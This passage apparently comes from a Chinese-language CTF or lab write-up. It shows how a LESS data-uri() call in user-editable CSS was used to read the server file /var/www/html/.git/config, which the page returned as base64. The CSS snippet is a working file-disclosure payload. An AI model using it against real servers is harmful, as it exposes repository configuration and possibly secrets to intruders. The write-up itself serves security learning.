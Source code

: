 ![](assets/6-30.png)
沒有成功回傳檔案資訊與檔案內容的 base64 code，猜測這代表指定路徑的檔案是不存在的\
後來才知道這邊為什麼這路徑不存在，但用網址存取卻可以存取得到東西的原因\
因為網址存取 / 會是對應到網站的根目錄\
查一下就可以知道 Apache server 預設的網站根目錄路徑為 /var/www/html
![](assets/6-34.png)
於是重新提交 edit css
```css
.a span {
    display: none;
}
.a:after {
content: data-uri('/var/www/html/.git/config');
}
```
![](assets/6-31.png)
頁面裡的 data-uri 終於成功回傳 base64 code